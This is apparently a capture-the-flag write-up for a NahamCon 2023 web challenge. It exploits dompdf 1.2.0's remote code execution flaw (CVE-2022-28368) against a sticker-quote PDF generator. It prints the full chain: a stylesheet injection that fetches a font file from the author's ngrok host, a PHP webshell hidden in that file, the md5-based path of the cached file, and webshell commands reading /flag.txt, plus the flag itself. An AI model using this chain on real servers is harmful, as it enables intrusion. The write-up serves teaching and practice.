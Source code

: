 >Wooohoo!!! Stickers!!! Hackers love STICKERS!! You can make your own with our new website!
>**Find the flag file in `/flag.txt` at the root of the filesystem.**
--------------
Visiting the website, there is a form to fill out custom information. Upon submitting data, we are generated a pdf webpage:

![Pasted image 20230616151436.png](https://github.com/spencerja/NahamConCTF_2023_Writeup/blob/main/Web/Images/Pasted%20image%2020230616151436.png)

In particular I notice the url of the page corresponds to the data I submitted:

```
http://challenge.nahamcon.com:31182/quote.php?organisation=&email=&small=0&medium=0&large=0
```

I downloaded the pdf file and decided to see if I can glean some information on how it was generated:

```
$ exiftool quote.pdf 
ExifTool Version Number         : 12.57
File Name                       : quote.pdf
Directory                       : .
File Size                       : 2.5 kB
File Modification Date/Time     : 2023:06:16 15:15:27-04:00
File Access Date/Time           : 2023:06:16 15:15:27-04:00
File Inode Change Date/Time     : 2023:06:16 15:15:27-04:00
File Permissions                : -rw-r--r--
File Type                       : PDF
File Type Extension             : pdf
MIME Type                       : application/pdf
PDF Version                     : 1.7
Linearized                      : No
Page Count                      : 1
Producer                        : dompdf 1.2.0 + CPDF
Create Date                     : 2023:06:16 19:14:20+00:00
Modify Date                     : 2023:06:16 19:14:20+00:00
Title                           : Quote
```

Immediately the producer `dompdf` stands out to me. I recognize a pretty serious vulnerability it that can lead to remote code execution [CVE-2022-28368](https://nvd.nist.gov/vuln/detail/CVE-2022-28368). 

I used [this poc post](https://github.com/positive-security/dompdf-rce) to exploit this.

Using my own `ngrok` website, I direct the payload toward myself, where it can pick up the malicious php:

```
challenge.nahamcon.com:31182/quote.php?organisation=<link rel=stylesheet href='https://91cf-50-81-86-237.ngrok-free.app/exploit.css'>&email=&small=0&medium=0&large=0
```

In the exploit_font.php, I used a simple webshell one-liner:

```shell
$ cat exploit_font.php 

� dum1�cmap
           `�,glyf5sc��head�Q6�6hhea��($hmtxD
loca
Tmaxp\ nameD�|8dum2�
                     -��-����
:83#5:08��_<�
             @�8�&۽
:8L��

:D

6                               s
<?php if(isset($_REQUEST['cmd'])){ echo "<pre>"; $cmd = ($_REQUEST['cmd']); system($cmd); echo "</pre>"; die; }?>
```

The unreadable junk above seems to be related to the file being intended as a font style, so it was left unchanged. 

After the request is sent, I see two GET requests on my server, knowing that it was successfully retrieved:

```
HTTP Requests                                                                                                       
-------------                                                                                                       
                                                                                                                    
GET /exploit_font.php          200 OK                                                                               
GET /exploit.css               200 OK 
```

Now we need to determine the new name of the malicious php downloaded. While not thoroughly explained in the POC github, it appears that the name is based on the `md5sum` of the download link, in this case my ngrok link:

```
$ echo -ne "https://91cf-50-81-86-237.ngrok-free.app/exploit_font.php" | md5sum
88045a0e7631a2540434bb8c27d7d483  -

```


Now we visit the downloaded link under the format `/dompdf/lib/fonts/<font-family>_<style>_<md5(url)>.php`

```
challenge.nahamcon.com:31182/dompdf/lib/fonts/exploitfont_normal_88045a0e7631a2540434bb8c27d7d483.php?cmd=id
```

```
� dum1�cmap`�,glyf5sc��head�Q6�6hhea��($hmtxD Lloca Tmaxp\ nameD�|8dum2� -��-���� :83#5:08��_<�@�8�&۽ :8L�� :D 6    s

uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

We do indeed see that it works! We were told the flag is located in root of the filesystem:

```
challenge.nahamcon.com:31182/dompdf/lib/fonts/exploitfont_normal_88045a0e7631a2540434bb8c27d7d483.php?cmd=cat /flag.txt
```


`flag{a4d52beabcfdeb6ba79fc08709bb5508}`

- Author : Tien
